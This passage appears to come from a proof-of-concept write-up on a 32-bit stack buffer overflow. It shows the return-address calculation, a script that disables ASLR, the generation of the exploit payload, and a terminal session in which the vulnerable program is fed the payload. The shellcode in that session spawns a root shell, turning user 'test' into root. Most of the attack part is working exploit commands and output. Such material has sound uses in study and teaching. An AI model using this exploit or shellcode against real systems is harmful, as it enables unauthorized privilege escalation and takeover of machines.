 ```python
addr_ret = 0xf7ddf000 + 0x1778ab  # 0xf7f568ab
```



#### Launching the exploit

```
poc$ sudo exploit/disable_protections.sh 
ASLR status:
/proc/sys/kernel/randomize_va_space
2

[*] Disabling ASLR... 
    Done

ASLR status:
/proc/sys/kernel/randomize_va_space
0
Bye!
poc$ python3 exploit/exploit.py > /tmp/exp
poc$ whoami
test
poc$ target/prog_32b $(cat /tmp/exp)
[*] Initializing...
[*] Processing data...
Data processed: AAAAAAAAAAAAAAAAAAAAAAAAAAAA�������������j1X1�̀�É�jFX̀�
                                                                     Rhn/shh//bi����̀�h����0��
# whoami
root
# 


```



##### Demo

By using the Frida Stalker, it is possible to see the instructions executed by the target. Namely, how the execution flow is redirected until the shellcode.
